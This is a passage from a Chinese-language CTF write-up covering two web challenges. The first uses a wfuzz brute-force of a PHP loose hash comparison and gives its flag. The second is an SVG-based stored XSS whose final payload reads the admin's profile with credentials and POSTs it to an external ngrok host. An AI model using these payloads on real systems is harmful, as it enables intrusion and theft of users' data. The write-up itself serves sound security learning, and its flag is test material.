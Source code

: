 另外如果false時會噴hint
> I CAN EVEN GIVE YOU A HINT XD
> 0006464640640064000646464640006400640640646400
回去看一下code，會發現這個output來自於`secret[i] & 0xc0`，加上這個secret是某個MD5 hash，所以只能是英文和數字，output是**0**的是`0-9`，而output是**64**的是`a-zA-Z`，所以能得出一個結論－**secret的前三byte是數字**。

再結合`==`的特性，只要**brute-force三位數數字**就能解了。
  
```sh
wfuzz -b otadmin="{\"hash\": FUZZ}" --hh=78 -c -z range,0-999 https://gameserver.zajebistyc.tf/admin/login.php
```

flag - `p4{wtf_php_comparisons_how_do_they_work}`

---

## Web 50 - [web 154p]

網站有`profile`和`report`兩個page，其中`/report`可以傳一個URL給他，不過只能是同個domain底下的，page也講得很明白了：
> admin will take a look, blah blah, you know what it means

看來就是要偷admin的cookie之類的，不過看了一下是`httpOnly`，好像又不太行？

再看一下`/profile`，可以填一些值和上傳圖片，上傳圖片會檢查header，不過我以為做一份header出來然後把
payload塞在後面就可以，結果傳完之後的URL還是被當作圖片來解析(即使副檔名是php之類)，改`Content-Type`也沒用，到現在還是不知道為何...
   
最後想到了**SVG XSS**，傳了普通的SVG上去後發現OK，接著就開始來踹踹看XSS：
(有圖片大小檢查要稍微注意)
```javascript
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg"  width="100px" height="100px" xml:space="preserve">                              
    <script>
      alert(1);
    </script>
</svg>
```
成功觸發XSS!那麼接下來就要想想能怎麼利用這個XSS，在嘗試的過程發現可以拜訪其他人的profile(包括admin)，
但`secret`是看不到的，於是就猜想這個`secret`應該就是flag，往這個方向繼續構造payload
```javascript
<?xml version="1.0" encoding="UTF-8"?> <svg xmlns="http://www.w3.org/2000/svg"  width="100px" height="100px" xml:space="preserve">                              
    <script>
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
                var xhr2 = new XMLHttpRequest();
                xhr2.open("POST", "http://59d95a27.ngrok.io");
                xhr2.send(xhr.responseText);
            }
        }
        xhr.open("GET", "http://web50.zajebistyc.tf/profile/admin");
        xhr.withCredentials = true;
        xhr.send();
    </script>
</svg>
```
